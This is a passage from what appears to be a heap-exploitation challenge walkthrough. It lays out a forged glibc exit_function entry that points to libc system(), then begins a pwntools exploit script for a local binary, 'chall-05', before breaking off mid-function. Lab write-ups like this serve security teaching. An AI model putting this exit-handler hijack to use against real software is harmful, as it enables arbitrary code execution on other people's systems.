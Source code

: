 So, our `exit_function` struct will look like this:

```
0x00:   NEXT        0x00
0x08:   idx         0x01
0x10:   flavor      0x04
0x18:   fn          mangled libc system
0x20:   arg         libc system
0x28:   dso_handle  0x00
```

That being said, putting it all together we have this exploit:

```
from pwn import *

target = process("./chall-05")
gdb.attach(target)

MENU_STRING = b"Please enter menu choice:\n"

# Our I/O Wrapper Functions
def allocate_new_chunk(chunk_size: int, chunk_idx: int) -> None:
  target.recvuntil(MENU_STRING)
  target.sendline(b"1")
  target.recvuntil(b"Enter the chunk size between 0x0-0x1000:\n")
  target.sendline(bytes(str(chunk_size), "utf-8"))
  target.recvuntil(b"Which chunk spot would you like to allocate?\n")
  target.sendline(bytes(str(chunk_idx), "utf-8"))

def view_chunk(chunk_idx: int) -> bytes:
  target.recvuntil(MENU_STRING)
  target.sendline(b"2")
  target.recvuntil(b"Which chunk idx would you like?\n")
  target.sendline(bytes(str(chunk_idx), "utf-8"))
  target.recvuntil(b"Chunk Contents: ")
  contents = target.recvuntil(b"\x0d\x0a")
  return contents[:-2]

def edit_chunk(chunk_idx: int, chunk_contents: bytes) -> None:
  target.recvuntil(MENU_STRING)
  target.sendline(b"3")
  target.recvuntil(b"Which chunk idx would you like?\n")
  target.sendline(bytes(str(chunk_idx), "utf-8"))
  target.recvuntil(b"Please input new chunk content:\n")
  target.sendline(chunk_contents)

def free_chunk(chunk_idx: int) -> None:
  target.recvuntil(MENU_STRING)
  target.sendline(b"4")
  target.recvuntil(b"Which chunk idx would you like?\n")
  target.sendline(bytes(str(chunk_idx), "utf-8"))

def remove_chunk(chunk_idx: int) -> None:
  target.recvuntil(MENU_STRING)
  target.sendline(b"5")
  target.recvuntil(b"Which chunk idx would you like?\n")
  target.sendline(bytes(str(chunk_idx), "utf-8"))

def secret() -> None:
  target.recvuntil(MENU_STRING)
  target.sendline(b"6")

def shift_right_carry(number: int, shift_amount: int) -> int:
  for i in range(shift_amount):
```